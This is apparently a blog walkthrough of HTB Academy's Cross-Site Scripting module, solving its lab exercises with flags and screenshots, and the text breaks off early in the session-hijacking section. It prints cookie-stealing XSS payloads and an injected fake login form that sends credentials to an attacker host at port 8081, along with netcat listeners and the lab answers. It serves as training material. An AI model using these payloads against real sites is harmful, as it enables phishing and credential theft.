Welcome to **Part 28** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Cross-Site Scripting (XSS)** (Tier I • Medium • Offensive). We break down the underlying mechanics of Reflected XSS, Stored XSS, DOM-based XSS, JavaScript payload execution, session hijacking, cookie exfiltration, and filter bypass techniques, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-27-hacking-wordpress/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 27: Hacking WordPress (WPScan to Remote Code Execution)</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 28 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-29-file-upload-attacks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 29: File Upload Attacks & Web Shell Weaponization</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Cross-Site Scripting (XSS)` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/103](https://academy.hackthebox.com/module/103) |
| **Curriculum Tier & Difficulty** | `Tier I` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 28 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **XSS Types**: Differentiates between Reflected (non-persistent), Stored (persistent database injection), and DOM-based client-side execution.
* **Payload Construction**: Crafts functional JavaScript payloads to steal session cookies, capture keystrokes, and forge administrative requests.
* **Filter Evasion Tradecraft**: Bypasses input validation and WAF blacklists using mixed-case tags, HTML event handlers, and character encodings.
* **Session Hijacking**: Sets up listener infrastructure to exfiltrate `document.cookie` and impersonate victim user sessions.
* **Modern Defensive Mitigations**: Implements Content Security Policy (CSP), contextual output encoding, and `HttpOnly` cookie flags.

## Executive Summary & Assessment Scope

Cross-Site Scripting (XSS) occurs when an application includes untrusted user input in a web page without proper validation or encoding, allowing attackers to execute arbitrary JavaScript in the victim's browser context.

In this module, we dissect Reflected, Stored, and DOM-based XSS vectors. We craft custom exploit payloads, bypass defensive input filters, exfiltrate session cookies, and solve every lab challenge with complete technical walkthroughs and flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Cross-Site Scripting (XSS)

> **Lab Question (Page 1)**: To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.
>
> **Flag / Answer**: `HTB{570r3d_f0r_3v3ry0n3_70_533}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, lets open the website in the browser:
http://<target-IP>:<target-port>


We can add some tasks.

To get the cookie, we will add the following 'task':
<script>alert(document.cookie)</script>


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


*_Figure 1.2 — Lab execution and output verification (Page 1)_*


### Reflected XSS

> **Lab Question (Page 2)**: To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.
>
> **Flag / Answer**: `HTB{r3fl3c73d_b4ck_2_m3}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in this question we will get to the same looking website as before,
and we will enter to the input box this payload:
<div></div><ul class="list-unstyled" id="todo"><div
style="padding-left:25px">Task
'<script>alert(document.cookie)</script>' could not be
added.</div></ul>


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


*_Figure 2.3 — Lab execution and output verification (Page 2)_*


### DOM XSS

> **Lab Question (Page 3)**: To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.
>
> **Flag / Answer**: `HTB{pur3ly_cl13n7_51d3}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

the 'task' we will add to the website input box is:



*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


### XSS Discovery

> **Lab Question (Page 4)**: Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?
>
> **Flag / Answer**: `email`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in this section we get to a new website:

Which have 4 different input parameters, and we need to determine which one
is XXS vulnerable.
Lets use burpsuite to intercept registration request to see what are the
parameters names:

The parameters names are 'fullname', 'username', 'password', 'email'.

Now, lets use an automated tool called 'XXStrike' to determine which one of
those parameter is vulnerable. Lets download and install it to our pwnbox:


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


### Now we are ready to run the tool

git clone https://github.com/s0md3v/XSStrike.git;
```bash
cd XSStrike;
```
pip install -r requirements.txt;


*
*


Now we are ready to run the tool:
```bash
python xsstrike.py -u "http://<target-IP>:<target-
```
port>?fullname=jonsnow&username=jonsnow&password=winterfell&
email=jonsnow@winterfell.com"


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


> **Lab Question (Page 6)**: What type of XSS was found on the above server? "name only"
>
> **Flag / Answer**: `Reflected`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

the screenshot on the tool execution above found a Reflection XXS (as
we can see on the marked area of the screenshot)


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


### Phishing

> **Lab Question (Page 7)**: Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.
>
> **Flag / Answer**: `HTB{r3f13c73d_cr3d5_84ck_2_m3}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this question we are provided with the path '/phishing' – for the
target server website at:
http://<target-IP>/phishing


We can use that to display URLs of images:


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


### such that a login page will appear

We can also use that to inject html code to manipulate the page structure –
such that a login page will appear:
document.write('<h3>Please login to continue</h3><form
action=http://[attacker-IP]:8081><input type="username"
name="username" placeholder="Username"><input
type="password" name="password"
placeholder="Password"><input type="submit" name="submit"
value="Login"></form>');
we will notice that the the payload will add login, and prelude to send them to
[attacker-IP]:8081 (I used [] instead of the usual <> in order not to confuse with
the html angular brackets):


Now, lets load the next page:
http://<target-IP>/phishing/send.php


It can take it any URL.

Before we do anything to it – lets start netcat listner on ourpwnbox, listening to
port 8081


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### html injection

```bash
nc -lnvp 8081
```


Now, as the netcat running – we copy the index.php modifed URL (after the
html injection:

http://<target-
IP>/phishing/index.php?url=document.write%28%27%3Ch3%3EPleas
e+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F
<attacker-
IP>%3A8081%3E%3Cinput+type%3D%22username%22+name%3D%22userna
me%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22pass
word%22+name%3D%22password%22+placeholder%3D%22Password%22%3
E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%2
2Login%22%3E%3C%2Fform%3E%27%29%3B
*the URL is the encoded version of the html payload from above), and put it in
the very trusting URL input box:

On the send.php we may get 'Issue in sending URL!', but on the netcat listener:


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


*_Figure 9.3 — Lab execution and output verification (Page 9)_*


We get credentials! 'admin:p1zd0nt57341myp455'.

Now lets go to
http://<target-IP>/phishing/login.php


And login with the obtained credentials


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


*_Figure 10.3 — Lab execution and output verification (Page 10)_*


### Session Hijacking

> **Lab Question (Page 11)**: Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.
>
> **Flag / Answer**: `HTB{4lw4y5_53cur3_y0ur_c00k135}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in this question – we go to '/hijacking' path:
http://<target-IP>/hijacking


We get to a registration page with 5 parameters
Lets try to make a registration:


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


### First we start netcat listener on port 8081

Upon registration..

The conclusion from this request – that whatever XXS attempts we perform on
the inputs – it will not be displayed for us. So we can not just throw 'alert' to
check what input field is XXS vulnerable. We will have to use something more
elobarated.

For that we will inject html script that contains javascript which sends a request
to us. From whatever input put the request and receive a request – we know its
XXS vulnerable.

First we start netcat listener on port 8081:
```bash
nc -lnvp 8081
```

